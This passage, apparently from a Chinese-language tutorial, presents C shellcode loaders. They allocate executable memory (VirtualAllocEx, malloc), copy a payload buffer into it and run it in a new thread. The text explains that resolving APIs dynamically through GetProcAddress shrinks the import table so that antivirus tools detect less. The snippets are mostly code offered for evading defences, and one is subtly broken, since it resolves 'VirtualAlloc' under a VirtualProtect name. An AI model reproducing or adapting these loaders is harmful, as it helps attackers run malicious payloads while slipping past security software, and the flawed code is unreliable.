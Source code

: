```C

    if (ResumeThread(pi.hThread) == -1) {
        return;
    }
}
```

###### # VirtualAllocEx加载器-2

```C
void thr34d_h1j4ck1ng_2() {
    HANDLE p = NULL;
    LPVOID lpvAddr = VirtualAllocEx(GetCurrentProcess(), 0, 1024, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    RtlMoveMemory(lpvAddr, raw_buf, sizeof(raw_buf));
    DWORD pa = 0x01;
    VirtualProtect(lpvAddr, sizeof(raw_buf), 0x10, &pa);
    if (lpvAddr != NULL) {
        HANDLE s;
        s = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)lpvAddr, raw_buf, 0, 0);
        WaitForSingleObject(s, INFINITE);
    }
}
```

##### 1.2.4 动态函数寻址加载器

不论PE文件还是ELF文件都有导入表的说法，导入表内的内容与程序内使用的各种外部API函数息息相关。因而，不少杀毒软件也通过分析导入表来判断程序是否存在潜在的恶意特征。也介于这样原因，演化一种更高级的写法，能够降低导入表内出现的函数。

###### # 动态函数寻址加载器-1

```c
void cr34te_thr34d_dynamic_1() {
    //#include <windows.h>
#include <string.h>
    LPVOID lpvAddr = (LPVOID)malloc(1024);
    memset(lpvAddr, '\x00', 1024);
    memcpy(lpvAddr, raw_buf, sizeof(raw_buf));
    DWORD pa = 0x01;
	LPVOID mVirtualProtect = GetProcAddress(LoadLibraryA("kernel32.dll"), "VirtualAlloc");
    mVirtualProtect(lpvAddr, sizeof(raw_buf), PAGE_EXECUTE_READWRITE, &pa);//PAGE_EXECUTE
    if (lpvAddr != NULL) {
        HANDLE s;
        s = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)lpvAddr, raw_buf, 0, 0);
        WaitForSingleObject(s, INFINITE);
    }
}
```

###### # 动态函数寻址加载器-2

不少加壳软件中大量用到了本技术，这种技术可以彻底脱离对外部API函数的导入需求，完全通过内部寻址实现。
